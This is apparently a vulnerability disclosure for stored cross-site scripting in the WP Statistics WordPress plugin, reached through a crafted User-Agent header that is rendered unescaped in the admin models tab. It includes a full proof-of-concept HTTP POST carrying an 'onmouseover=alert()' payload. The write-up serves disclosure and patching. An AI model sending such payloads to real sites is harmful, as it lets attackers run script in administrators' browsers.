 ![Model được hiển thị trong UI tab models](ui1.png)
*Model displayed in the UI models tab*

### Sources & Sinks

**Source:** `User-Agent` header (POST `/wp-json/wp-statistics/v2/hit`) — DeviceDetector parse → `getModel()`.

**Sink:** `includes/admin/templates/pages/devices/models.php` — `echo $item->model` (without `esc_html()` / `esc_attr()`)

### Flow

1. Attacker sends a UA containing an XSS payload
2. The model containing the payload is stored in the database
3. Admin opens the models tab => payload executes

## Exploit

### Proof of Concept (PoC)

* Send a request containing the XSS payload:

```http
POST /wp-json/wp-statistics/v2/hit HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Linux; Android 14; Goly "onmouseover=alert()-" Build) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/120.0.0.0 Mobile Safari/537.36

wp_statistics_hit=1&source_type=home&source_id=0&search_query=&signature=787b07b8979cb982ec89a4f103a68081&endpoint=hit&referred=&page_uri=Lw%3D%3D
```
